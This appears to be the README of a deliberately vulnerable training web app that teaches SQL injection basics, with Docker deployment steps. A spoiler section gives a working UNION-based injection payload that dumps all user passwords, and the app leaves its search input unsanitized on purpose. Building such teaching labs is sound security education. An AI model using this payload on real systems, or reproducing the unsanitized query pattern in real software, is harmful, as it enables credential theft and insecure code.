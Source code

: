 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
  <summary>Warninng ! Contains spoilers !</summary>
    Here is an example of a working payload, esposing all passwords in the table:

    ```sql
    nothing%" UNION SELECT pass, nickname, email FROM users#
    ```

    Resulting in the following complete query :

    ```sql
    SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
    ```
</details>
